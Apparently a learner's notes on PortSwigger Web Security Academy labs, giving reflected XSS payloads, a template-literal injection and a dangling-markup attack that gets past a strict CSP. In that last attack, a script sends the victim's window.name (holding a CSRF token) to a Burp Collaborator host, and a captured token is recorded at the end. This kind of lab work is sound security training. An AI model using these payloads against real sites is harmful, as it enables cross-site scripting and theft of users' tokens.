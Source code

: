 ```
\';alert(document.domain)//
\%27;alert(document.domain)//
```

### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
<script>
    var message = `0 search results for 'asd'`;
    document.getElementById('searchMessage').innerText = message;
</script>
```
      
```
${alert(document.domain)}
```
    
### Reflected XSS protected by very strict CSP, with dangling markup attack
	
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
	
https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
    
/email?email=asd
    
/email?email=asd">asd
    
/email?email=asd">asd<a>click me</a>
    
/email?email=asd"><a href =https://exploit-0a31008c040bc776c0246864016300f0.exploit-server.net/exploit>click me</a><base target='
    
<base target=' sets window.name for some reason.... don't really know why

```
<script>

if(window.name) {
	new Image().src='//fk3zdi529trgk3eo429lbc2knbt5hu.burpcollaborator.net?'+encodeURIComponent(window.name);
	} else {
		window.location = "https://0a8b0083041dc78fc09f6821009300d7.web-security-academy.net/my-account?email=asd%22%3E%3Ca%20href%20=https://exploit-0a31008c040bc776c0246864016300f0.exploit-server.net/exploit%3Eclick%20me%3C/a%3E%3Cbase%20target=%27"
}
    
</script>
```

<img width="765" alt="image" src="https://user-images.githubusercontent.com/56427824/195265254-4d0a3516-781e-49d4-be5f-f0d62417d31a.png">

CSRF Token: CgwGsTEoQQvRqtp5wScRwNOn1pq5QqkS
